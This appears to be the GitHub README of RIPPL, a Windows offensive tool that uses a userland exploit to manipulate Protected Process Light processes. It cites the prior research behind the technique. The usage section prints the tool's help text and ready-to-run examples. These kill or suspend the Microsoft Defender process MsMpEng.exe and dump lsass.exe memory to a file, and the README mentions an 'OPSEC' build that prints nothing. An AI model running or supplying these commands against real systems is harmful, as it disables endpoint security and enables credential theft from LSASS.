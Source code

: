 # RIPPL
### Manipulating PPL protected processes without using a driver

This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

### Warning: the safe version of the binary __NEVER__ outputs anything, as all the strings and print function are stripped away using conditional compilation macros.
Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L|-X|-W|-Z|-T) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)
  -X -> Kill the given process by assigning it to a job object and terminating the object
  -W -> Freeze the process by assigning it to a job object and severely constraining its CPU resources
  -Z -> Kill the given process by injecting a thread into it which calls exit(0)
  -T -> Sandbox the process by disabling all of its token's privileges and lowering integrity to untrusted

Arguments:
  PROC_NAME -> The name of the process to interact with
  PID       -> The ID of the process to interact with
  DUMP_FILE -> The path of the output dump file - valid ONLY with the -D option

Options:
  -v -> (Verbose) Enable verbose mode
  -d -> (Debug) Enable debug mode (implies verbose)
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -v -f 720 out.dmp
```
